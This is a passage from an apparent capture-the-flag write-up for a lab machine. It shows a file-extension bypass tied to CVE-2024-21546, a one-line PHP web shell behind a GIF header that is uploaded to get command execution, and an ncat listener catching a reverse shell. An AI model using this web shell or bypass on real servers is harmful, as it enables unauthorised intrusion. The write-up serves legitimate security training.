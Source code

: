 ![Invalid file detected](/assets/img/img_Environment/Environment-1746330512752.png)

After doing some testing I've come to the conclusion that there's a file content filter as well as a file extension blacklist.

Looking around we find that [this cve](https://nvd.nist.gov/vuln/detail/CVE-2024-21546) states that if we upload a file with the following extension: `.php.`, it simply gets uploaded as `.php`.

```json
{"url":"http:\/\/environment.htb\/storage\/files\/w1ld.php","uploaded":"http:\/\/environment.htb\/storage\/files\/w1ld.php"}
```

So if we upload the following file as `w1ld.php.`:

```php
GIF8
<?php system($_REQUEST['cmd'])?>
```

and visit the resulting `url` with the parameter of `cmd=id` we get the following:
![Command execution via web shell](/assets/img/img_Environment/Environment-1746356700416.png)

let's upload a revshell from [revshells](https://revshells.com)

And we get a call back on our listener!

```bash
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.129.238.73.
Ncat: Connection from 10.129.238.73:51504.
whoami
www-data
```

